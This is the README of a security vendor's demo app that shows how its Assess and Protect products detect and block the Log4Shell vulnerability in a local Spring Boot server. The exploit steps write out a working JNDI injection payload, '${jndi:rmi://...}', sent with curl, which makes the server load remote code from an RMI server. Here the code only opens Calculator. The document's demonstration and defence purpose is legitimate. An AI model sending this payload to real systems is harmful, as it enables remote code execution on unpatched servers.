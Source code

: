 # Introduction

This app is used to demonstrate the detection/protection of [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) using the Contrast Security platform.

The exploitation of this vulnerability can also be mitigated *pre-CVE* via **Contrast Protect**, specifically using the Expression Language Injection and Untrusted Deserialisation rules.

This vulnerability was indicated *pre-CVE* by **Contrast Assess** via the existing Log Injection rule and *post-CVE* via **Contrast OSS** which reports on the CVE and also the runtime class usage of this library by your app.

## Credits

The sever to serve the actual attacks is taken from [GitHub - welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

# Requirements

This demo has been tested against Java 1.8 (updates 151, 181, 191) on MacOS.

# Exploit Steps

1. Run `java -jar myproject-0.0.1-SNAPSHOT.jar` to start up the vulnerable spring boot server with log4j.

1. Run the following to start up the RMI server with payload:

    ```
    java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /System/Applications/Calculator.app"
    ```

1. Copy the RMI address for JDK 1.8 to your clipboard.

1. Paste the RMI address into the following curl request:

    ```
    curl --location --request POST 'http://localhost:8080/log' \
    --header 'Content-Type: text/plain' \
    --data-raw '${jndi:XXX}'
    ```

    **Change the "XXX" to your version of `rmi://ip:1099/token`**

1. The Calculator app should pop.

# Detection with Contrast Assess

1. Register for a free Contrast Community Edition (CE) account (if you do not have an existing account) here: https://www.contrastsecurity.com/contrast-community-edition.

1. Download the Contrast Java agent from [Maven](https://search.maven.org/artifact/com.contrastsecurity/contrast-agent) and place within the root of this folder.

1. Download a yaml configuration file for the agent to this folder from the Contrast UI > Add New button.

1. Run the following to start up the vulnerable spring boot server with log4j:

    ```
    java -javaagent:contrast.jar -Dcontrast.agent.java.standalone_app_name=log4j-demo -Dcontrast.config.path=contrast_security.yaml -Dcontrast.assess.enable=true -Dcontrast.protect.enable=true -Dcontrast.server.name=log4j -jar myproject-0.0.1-SNAPSHOT.jar
    ```

1. Ensure that the Log Injection rule is turned on in the Policy tab of the log4j-demo application in the Contrast UI.

1. To test detection with **Contrast Assess** (this is not an attack):

    ```
    curl --location --request POST 'http://localhost:8080/log' \
    --header 'Content-Type: text/plain' \
    --data-raw 'Harmless Log Message'
    ```

1. The Log Injection vulnerability should be visible within the Vulnerabilities tab of the log4j-demo application in the Contrast UI.

# Blocking with Contrast Protect

1. Follow steps 1-4 from the Contrast Assess section above to onboard the app.

1. Run the following command to start up the RMI server with payload:

    ```
    java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /System/Applications/Calculator.app"
    ```

1. Copy the RMI address for JDK 1.8 to your clipboard.

1. Run the following request. This uses RMI to load and invoke the remote code:

    ```
    curl --location --request POST 'http://localhost:8080/log' \
    --header 'Content-Type: text/plain' \
    --data-raw '${jndi:XXX}'
    ```

    **Change the "XXX" to your version of `rmi://ip:1099/token`**

1. The Calculator app should pop. After a few seconds the exploit should be visible within the Attacks tab in the Contrast UI.

1. Open the Contrast UI and locate the log4j-demo app. Go to the Policy tab, then Protect rules. Change the rules for Expression Language Injection and Untrusted Deserialization from "Monitor" to "Block" in all environments.

1. Restart the app and repeat the attack, the Calculator app should *NOT* open. After a few seconds the block should be visible within the Attacks tab in the Contrast UI.
